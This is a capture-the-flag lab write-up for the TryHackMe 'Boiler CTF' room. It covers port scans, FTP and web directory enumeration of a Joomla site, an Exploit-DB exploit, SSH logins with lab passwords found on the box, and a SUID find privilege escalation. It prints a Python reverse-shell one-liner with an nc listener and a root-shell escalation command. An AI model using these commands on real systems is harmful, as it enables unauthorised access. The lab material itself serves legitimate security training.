 # Boiler CTF

**Room Link:** [https://tryhackme.com/room/boilerctf2](https://tryhackme.com/room/boilerctf2)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - HTTP

**Kali**

```
ftp $VICTIM
ls -lah 
get .info.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/joomla -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Exploit:** [https://www.exploit-db.com/exploits/47204](https://www.exploit-db.com/exploits/47204)

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Browser command**

```
export RHOST="10.10.157.229";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a file that has credentials

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It was also possible to view from the browser

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/55007 - SSH

**Kali**

```
ssh basterd@$VICTIM -p 55007
Pass: superduperp@$$
```

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



There is a backup.sh script that is owned by user stoner, which has his credentials.

<figure><img src="../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh stoner@$VICTIM -p 55007                                            
Pass: superduperp@$$no1knows 
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

We can exploit SUID for the find command

**Exploit:** [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

Had to specify the full path, it doesn't work if you don't

**Victim**

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>





